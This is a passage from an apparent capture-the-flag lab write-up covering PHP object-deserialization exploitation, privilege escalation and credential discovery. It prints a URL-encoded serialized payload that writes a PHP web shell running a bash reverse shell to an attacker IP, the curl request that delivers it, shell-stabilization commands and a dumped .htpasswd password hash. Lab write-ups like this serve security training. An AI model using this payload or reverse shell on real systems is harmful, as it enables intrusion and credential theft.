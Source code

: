 ```
O%3A10%3A%22FormSubmit%22%3A2%3A%7Bs%3A9%3A%22form_file%22%3Bs%3A9%3A%22shell.php%22%3Bs%3A7%3A%22message%22%3Bs%3A74%3A%22%3C%3Fphp+exec%28%22%2Fbin%2Fbash+-c+%27bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.6.34.159%2F4444+0%3E%261%27%22%29%3B+%3F%3E%22%3B%7D
```

Now, use curl to upload the reverse shell:

```
curl "http://10.10.109.3/index.php?debug=GENERATED_PAYLOAD"
```

![](images/Pasted%20image%2020250407135556.png)

It will upload the file successfully and we can get the reverse shell by visiting:

```
http://TARGET_IP/shell.php
```


If we check our listener, we get the connection:

![](images/Pasted%20image%2020250407135634.png)

Let's proceed with privilege escalation.



# PRIVILEGE ESCALATION
---


We can begin by stabilizing our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](images/Pasted%20image%2020250407135735.png)

We can find this inside of `/var/www/html`:

![](images/Pasted%20image%2020250407141523.png)

We got a `.htpasswd` file:

```
www-data@osboxes:/var/www/html$ cat .htpasswd
james:$apr1$zPZMix2A$d8fBXH0em33bfI9UTt9Nq1
```
